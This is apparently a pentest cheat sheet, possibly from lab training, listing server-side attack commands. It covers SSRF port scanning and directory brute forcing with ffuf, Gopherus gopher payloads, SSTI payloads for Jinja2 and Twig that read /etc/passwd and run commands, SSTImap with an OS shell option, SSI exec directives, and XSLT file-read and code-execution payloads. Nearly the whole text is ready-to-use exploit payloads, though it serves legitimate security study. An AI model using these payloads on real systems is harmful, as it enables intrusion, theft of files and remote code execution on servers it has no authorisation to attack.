 # Server-Side Attacks Commands Cheat Sheet

## SSRF Testing & Exploitation

### Basic SSRF Detection
```bash
# Set up netcat listener to confirm SSRF
nc -lnvp 8000
```

### Port Scanning via SSRF
```bash
# Create wordlist for port scanning
seq 1 10000 > ports.txt

# Use ffuf to scan ports through SSRF
ffuf -w ./ports.txt -u http://target/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Failed to connect to"
```

### Directory Brute Force via SSRF
```bash
ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://target/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80"
```

### Gopher Protocol URLs
```bash
# Generate gopher URLs with Gopherus
python2.7 gopherus.py --exploit smtp
python2.7 gopherus.py --exploit mysql
```

## SSTI Testing & Exploitation

### SSTI Detection Payload
```
${{<%[%'"}}%\.
```

### Template Engine Identification
```
${7*7}    # First test
{{7*7}}   # If first fails
{{7*'7'}} # Jinja: 7777777, Twig: 49
```

### Jinja2 Exploitation
```python
# Information disclosure
{{ config.items() }}
{{ self.__init__.__globals__.__builtins__ }}

# Local file inclusion
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}

# Remote code execution
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

### Twig Exploitation
```php
# Information disclosure
{{ _self }}

# Local file inclusion
{{ "/etc/passwd"|file_excerpt(1,-1) }}

# Remote code execution
{{ ['id'] | filter('system') }}
```

### SSTImap Tool Usage
```bash
# Clone and setup SSTImap
git clone https://github.com/vladko312/SSTImap
cd SSTImap
pip3 install -r requirements.txt

# Automatic detection and exploitation
python3 sstimap.py -u http://target/index.php?name=test
python3 sstimap.py -u http://target/index.php?name=test -D '/etc/passwd' './passwd'
python3 sstimap.py -u http://target/index.php?name=test -S id
python3 sstimap.py -u http://target/index.php?name=test --os-shell
```

## SSI Injection Testing

### SSI Detection Payloads
```html
<!--#printenv -->
<!--#exec cmd="whoami" -->
```

### Common SSI Directives
```html
<!--#printenv -->
<!--#config errmsg="Error!" -->
<!--#echo var="DOCUMENT_NAME" var="DATE_LOCAL" -->
<!--#exec cmd="id" -->
<!--#include virtual="index.html" -->
```

## XSLT Injection Testing

### XSLT Detection
```xml
<
```

### Information Disclosure
```xml
Version: <xsl:value-of select="system-property('xsl:version')" />
<br/>
Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br/>
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
<br/>
Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
<br/>
Product Version: <xsl:value-of select="system-property('xsl:product-version')" />
```

### Local File Inclusion (XSLT 2.0)
```xml
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
```

### Local File Inclusion (PHP Functions Enabled)
```xml
<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />
```

### Remote Code Execution (PHP Functions Enabled)
```xml
<xsl:value-of select="php:function('system','id')" />
```

## URL Schemes for SSRF
- `http://` and `https://` - HTTP/S requests
- `file://` - Read local files (LFI)
- `gopher://` - Send arbitrary bytes

## Common Ports to Test via SSRF
- 22 (SSH)
- 25 (SMTP)
- 80 (HTTP)
- 443 (HTTPS)
- 3306 (MySQL)
- 5432 (PostgreSQL)
- 6379 (Redis)
- 8080 (Alternative HTTP)
- 9200 (Elasticsearch)
